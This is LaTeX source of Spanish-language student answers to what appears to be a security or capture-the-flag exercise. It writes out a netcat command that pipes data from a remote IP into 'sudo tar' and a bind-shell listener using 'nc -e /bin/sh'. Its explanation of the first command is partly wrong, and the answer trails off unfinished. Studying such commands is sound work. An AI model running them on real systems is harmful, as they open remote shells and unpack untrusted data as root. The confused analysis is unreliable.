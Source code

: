 \documentclass[11pt,a4paper]{article}
\begin{document}
\begin{enumerate}
\item El diccionario con los aliases se llama ekoparty.txt. Adem\'as, se agregan los nombres completos de las personas en un archivo aparte.

\item Para analizar el comando \textbf{nc 143.0.100.198 1099 $|$ sudo tar -xf -} comenzaremos con la parte de netcat, es decir, nc. Esto se usa generalmente para crear una bind shell, donde el atacante se conecta a la victima con IP 143.0.100.198 al puerto 1099. En la victima se deberia ejecutar \textit{nc -nlvp 1099 -e /bin/sh}. Luego, la salida de este comando se redirecciona al comando tar, el cual con los parametos xf extrae un archivo ???? 


\end{enumerate}
\end{document}
